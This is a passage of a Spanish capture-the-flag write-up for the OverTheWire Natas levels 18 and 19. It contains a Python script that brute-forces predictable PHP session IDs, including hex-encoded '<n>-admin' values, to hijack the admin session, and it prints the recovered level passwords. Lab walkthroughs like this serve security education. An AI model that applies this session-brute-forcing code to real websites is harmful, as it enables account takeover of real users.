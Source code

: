 ~~~
for i in range(0,641):
check(i)

autocheck()
~~~

La sesión de admin está en 138
4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

# Natas19
utilizamos
~~~
import httplib,sys
from base64 import b64encode
from urllib import urlencode

def check(sessid):
httpClient = None
try:
userAndPass = b64encode(b”natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs”).decode(“ascii”)
body=urlencode({‘username’ : ‘admin’ , ‘password’ : ‘aaa’ }) # username must be admin: it will affect how PHPSESSID is generated; password could be any string
cookie = ‘PHPSESSID=’+str(sessid)
headers = { ‘Authorization’ : ‘Basic %s’ % userAndPass , ‘Content-Type’: ‘application/x-www-form-urlencoded’ , ‘Cookie’ : cookie }
httpClient = httplib.HTTPConnection(‘natas19.natas.labs.overthewire.org’, 80, timeout=300)
httpClient.request(‘POST’, ‘/index.php?debug=a’ ,body=body,headers=headers)
response = httpClient.getresponse()
responseData = response.read()
#print responseData
if ‘regular’ in responseData:
print ‘regular ‘+str(sessid)
else:
print responseData
sys.exit()
except Exception, e:
print e
finally:
if httpClient:
httpClient.close()

def autocheck():
for i in range(0,1000):
a = i/100
b = i/10-a*10
c = i%10
sessid=”
if not a==0:
sessid+=’3’+str(a)
if not b==0:
sessid+=’3’+str(b)
if not c==0:
sessid+=’3’+str(c)
sessid+=’2d61646d696e’
check(sessid)

autocheck()
~~~
El ID de sesión del administrador es 38392d61646d696e (089)
eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
